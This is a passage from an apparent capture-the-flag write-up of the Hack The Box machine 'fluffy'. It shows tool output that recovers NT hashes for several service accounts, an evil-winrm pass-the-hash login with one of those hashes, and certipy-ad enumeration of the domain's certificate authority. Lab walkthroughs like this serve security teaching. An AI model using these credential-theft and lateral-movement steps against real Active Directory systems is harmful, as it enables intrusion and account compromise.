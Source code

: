 ```bash
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
[...]
[*] NT hash for 'ldap_svc': 22151d74ba3de931a352cba1f9393a37
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

I obtained NT hash for users: `ca_svc`, `ldap_svc` and `winrm_svc`.

Which meant I could now login to fluffy as `winrm_svc`.

```cmd
$ evil-winrm -i fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> 
```

### Second rabbit hole

I initially thought of abusing the privilege of having the CA service's NT hash. So I started by enumerating using `certipy-ad`.

```bash
$ certipy-ad find -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'fluffy-DC01-CA' via CSRA: Could not connect: timed out
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via RRP
[*] Got CA configuration for 'fluffy-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
```